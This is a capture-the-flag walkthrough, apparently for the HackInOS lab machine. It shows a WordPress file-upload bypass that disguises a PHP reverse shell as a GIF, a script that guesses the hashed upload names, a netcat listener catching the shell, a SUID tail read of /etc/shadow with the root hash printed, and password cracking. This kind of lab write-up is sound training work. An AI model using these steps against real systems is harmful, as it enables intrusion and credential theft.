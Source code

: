 root@kali ~/D/C/HACKINOS# nmap -sS -A -T4 -p- 10.0.0.31

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:c1:5c:20:9a:77:54:f8:a3:41:18:92:1b:1e:e5:35 (RSA)
|   256 df:d4:f2:61:89:61:ac:e0:ee:3b:5d:07:0d:3f:0c:87 (ECDSA)
|_  256 8b:e4:45:ab:af:c8:0e:7e:2a:e4:47:e7:52:f9:bc:71 (ED25519)
8000/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.0.3
| http-robots.txt: 2 disallowed entries 
|_/upload.php /uploads
|_http-title: Blog &#8211; Just another WordPress site
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.25 (Debian)

Starting with a NMAP scan we see 2 open ports, SSH and HTTP, let's start by enumerating HTTP and try to get creditnals to log to the machine with ssh.

root@kali ~/D/C/HACKINOS# dirsearch -u http://10.0.0.31:8000

We find a robots.txt file.

User-agent:*
Disallow:/upload.php
Disallow:/uploads

Going to 10.0.0.31/upload.php there is an option to upload images. By using the dev tools we can find a little hint:

<!-- https://github.com/fatihhcelik/Vulnerable-Machine---Hint -->

Going to https://github.com/fatihhcelik/Vulnerable-Machine---Hint we can see the source code for the upload.php page. The program checks if the image is not empty, if it is not empty, it hashes the name of the file and adds a random number to it.
The program checks if the MIME(MIME stands for "Multipurpose Internet Mail Extensions. It's a way of identifying files on the Internet according to their nature and format.) type of the image is either "image/png" or "image/gif".

This means if we enter either a gif or a png we the name of the file will be hashed and saved to the /uploads folder. The goal is to upload a php reverse shell and connent to the machine, we need to fool the program that our php code is an image or a gif. After playing with a few jpeg images I found that the MIME type is stored in thier metadata and can be viewed by using "exiftool", I searched for ways to change the MIME type but I did not succeed. I tried using Burpsuite to capture the packet being uploaded and maybe change it a bit. I uploaded a png file and intercpet the packet, I saw the on the top of the source code was "PNG", I uploaded a gif image aswell and there was the same thing only with "GIF89". I tried uploading the reverse shell and adding "PNG" to it but it didn't work, but after adding "GIF89" it worked and the script name was hashed and added to the /uploads directory. Now we need to find our uploaded script and access it, since a random number from 1-100 is added in the end we'll make a python script that covers all options.

createHashesList.py - 
{
	import hashlib
	
	nameOfFile = "reverse_shell.php"
	for i in range(1,100):
	        hashedFileName = hashlib.md5((nameOfFile+str(i)).encode()).hexdigest()
        print(hashedFileName+".php")
}

We can now use gobuster to see if our file is there.

root@kali ~/D/C/HACKINOS# gobuster dir -u http://10.0.0.31:8000/uploads -w ./list.txt

/8d83eaa129ac84575c92ec4491547275.php (Status: 200) [Size: 287]

We can set up a listener on our local machine and go to the script.

root@kali ~# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.0.27] from (UNKNOWN) [10.0.0.31] 51738
Linux 1afdd1f6b82c 4.15.0-29-generic #31~16.04.1-Ubuntu SMP Wed Jul 18 08:54:04 UTC 2018 x86_64 GNU/Linux
 20:25:05 up 1 day,  2:30,  0 users,  load average: 0.08, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

We now have access to the machine as the www-data user.
Reading the /etc/passwd file we find there is only the root user. Let's try to find SUID files.

$ find / -perm /4000 2> /dev/null

We find that the tail command has SUID permissions, at first I thought of editing the code of the tail command to open a shell, but I remebred we are the www-data user and we don't permission to do that. Since the tail user has SUID permissions we can read files with root only root permissions, such as the /etc/shadow file that holds hashed passwords for the machine users. 

$ tail -n 20 /etc/shadow | grep root
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
$ 

We can add the hashed password to a file and crack it on our local machine using John The Ripper.

root@kali ~/D/C/HACKINOS# echo 'root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/' > rootHashedPassword.txt
root@kali ~/D/C/HACKINOS# john rootHashedPassword.txt 

john             (root)     

We can log in from ssh as root but we can also use the "su" command, before we can use the command we need to get a better shell using python.

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@1afdd1f6b82c:/home$ su root
su root
Password: john

root@1afdd1f6b82c:/home# cat /root/flag
cat /root/flag
Life consists of details..